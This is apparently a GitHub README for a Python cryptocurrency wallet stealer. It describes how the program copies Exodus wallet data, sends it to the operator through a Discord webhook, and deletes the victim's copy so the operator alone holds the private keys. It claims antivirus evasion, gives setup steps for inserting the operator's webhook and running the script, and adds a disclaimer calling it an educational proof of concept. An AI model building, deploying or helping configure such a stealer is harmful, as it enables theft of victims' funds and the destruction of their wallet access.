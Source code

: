 # Exodus Wallet Stealer

Working Exodus Wallet Stealer to steal Exodus wallets, private keys, public keys and crypto in general, the stealer downloads a backup of the exodus appdata and then sends it to you via a discord webhook, once you recieve the webhook message the files are deleted so the wallet can no longer be accessed by the user, you can then download the files and drag and drop them into your appdata and reload your exodus.

After doing this you will have full access to all there stuff including private keys, you could then send and recieve crypto through that account.

The program once compiled properly is not detected by Anti-Virus at all and this makes it very dangerous malware.

I have created an interesting post about this Malware on my website were we go over how to install and prevent it.

https://www.katsu.bio/posts/oLWGiZkBqjC6BpZz

## Video
https://user-images.githubusercontent.com/122122838/228079770-cb0463dc-4afe-4e29-89d5-148389b54730.mp4

## Setup
Download the project files then follow the instructions below.

Open `stealer.py` and change this line:
```bash
Discord_Webhook_Client.send_file("WEBHOOK")
```
Remove **WEBHOOK** and add your Discord webhook URL.
    
## Run the program
You can run the stealer by doing the following command:
```bash
python stealer.py
OR 
python3 stealer.py
```

I recommend that you compile this if you wanted to actually use it and this is what cybercrimals would do however I am not gonna show how you can do this as this project is just a proof of concept and supposed to help fight against malware not make it spread more.

## NOTE:
This malware is supposed to explain and show how the malware would operate in a manor that allows the user to run it themselves without causing danage, I do not condone spreading or compiling with the intention to spread this malware and will not and have not shown how to compile it properly and have made it so it is not a complete version of malware. 
